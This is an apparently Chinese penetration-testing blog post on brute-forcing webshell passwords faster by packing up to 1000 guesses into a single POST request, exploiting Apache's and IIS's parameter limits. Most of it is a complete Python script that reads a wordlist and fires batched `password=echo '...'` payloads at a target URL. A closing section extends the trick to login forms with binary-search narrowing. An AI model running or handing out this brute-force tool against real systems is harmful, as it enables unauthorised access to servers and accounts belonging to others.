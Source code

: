 +++
date = "2017-02-17T10:32:24+08:00"
description = ""
draft = false
tags = ["爆破"]
title = "利用多参数提高webshell爆破速度"
topics = ["Pentest"]

+++

### 0x00 原理
> 之前在[https://www.t00ls.net/viewthread.php?tid=36985](https://www.t00ls.net/viewthread.php?tid=36985)看到这个思路的。Apache下默认同时允许接收1000个参数；IIS下默认同时允许接收5883个参数，可以一次提交多个密码，从而快速爆破。

### 0x01 爆破webshell代码
> ```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# code by reber <1070018473@qq.com>

import sys
import requests

proxy = {'http':'http://127.0.0.1:8080'}
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
}

def get_file(filename):
    data = []
    with open(filename,'r') as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_payloads(data):
    payloads = []
    for x in xrange(0,10):
        print x*1000,(x+1)*1000
        payload = []
        for y in data[x*1000:(x+1)*1000]:
            payload.append("%s=echo '%s';" % (y,y))
        payloads.append('&'.join(payload))
    return payloads

def run(url, payloads):
    for payload in payloads:
        resp = requests.post(url=url,data=payload,headers=headers)
        print resp.content

if __name__ == '__main__':
    url = sys.argv[1]
    filename = sys.argv[2]

    data = get_file(filename)
    payloads = get_payloads(data)
    run(url, payloads)
```
![](/img/post/blasting_webshell.png)

### 0x02 猜想
>  平时爆破表单时都是一次提交一个payload，比如说username='xxx'&password='xxx'  
10w个组合需要提交10w次，若一次提交500个组合则只需要提交200次

> 我们可以直接一次提交500个payload，如：name='111'&pass='111'&name='112'&pass='112'&name='113'&pass='113'& 。。。。。。(500个payload)

> 如果正确的密码在你测试的某1000个参数中，那么返回页面的是不同的，则可以断定正确的用户名和密码在这1000个参数里，然后对这1000个参数用二分法再次进行测试，直到得到正确的用户名和密码